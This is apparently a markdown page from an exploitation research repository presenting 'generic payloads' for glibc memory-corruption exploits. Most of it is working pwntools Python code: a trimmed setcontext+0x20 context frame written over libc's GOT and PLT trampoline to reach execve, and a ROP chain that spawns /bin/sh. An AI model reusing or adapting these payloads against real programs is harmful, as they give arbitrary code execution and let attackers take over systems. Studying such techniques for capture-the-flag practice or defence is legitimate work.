 
# Generic Payload

## fx0 - 0x248
As [this article][1] presents, we can use setcontext+0x20 to RCE. I modified it to a shorter version by
- Avoid setting ldmxcsr and use original data to set it
- Only set necessary registers

```python3
def liteContext(src: int,rsp=0,rbx=0,
    rbp=0,rsi=0,rdi=0,rcx=0,
    rdx=0,rip=0xDEADBEEF,) -> bytearray:
    b = bytearray(0x200)
    b[0x68:0x70] = p64(rdi)
    b[0x70:0x78] = p64(rsi)
    b[0x78:0x80] = p64(rbp)
    b[0x80:0x88] = p64(rbx)
    b[0x88:0x90] = p64(rdx)
    b[0x98:0xA0] = p64(rcx)
    b[0xA8:0xB0] = p64(rip)
    b[0xA0:0xA8] = p64(rsp)
    b[0xE0:0xE8] = p64(src)  # fldenv ptr
    # b[0x1C0:0x1C8] = p64(0x1F80)  # ldmxcsr == 0
    return b

def fx0(libc: ELF,nudge = 8, **kwargs) -> (int, bytes):
    # nudge is used to make sure ldmxcsr == 0, 
    # aka [got + 0x1c8-0x68 + nudge + 0x1c0] == 0
    got = libc.address + libc.dynamic_value_by_tag("DT_PLTGOT")
    plt_trampoline = libc.address + libc.get_section_by_name(".plt").header.sh_addr
    info(hex(plt_trampoline))
    return got+8, flat(
        p64(got + 0x1c8-0x68 + nudge), # Make sure ldmxcsr==0
        p64(libc.symbols["setcontext"] + 32),
        p64(plt_trampoline) * 0x36,
        liteContext(libc.sym["execve"], rsp=libc.symbols["environ"] + 8, **kwargs)[0x68-nudge:0xe8])

```

## fx1 - 0x200

Setcontext has the advantage of transforming data to control flow, while ROP can do the same thing with a shorter payload in this scenario. Moreover, ROP is more flexible. The min generic RCE (`execve("/bin/sh",0,0)`) payload is 0x200. 

There is one example for ROPchain:
```
libc.address=base
rop = ROP(libc)
rdi = rop.find_gadget(["pop rdi",'ret'])[0]
rsi = rop.find_gadget(["pop rsi",'ret'])[0]
rdx = rop.find_gadget(["pop rdx","pop r12",'ret'])[0]
rop_chain = [rdi,libc.search(b"/bin/sh").__next__(),rsi,0,rdx,0,0,libc.sym['execve']]
```


[2]: ../Infra/SinkFinder.py
[3]: ../Code
[4]: ../Temp.md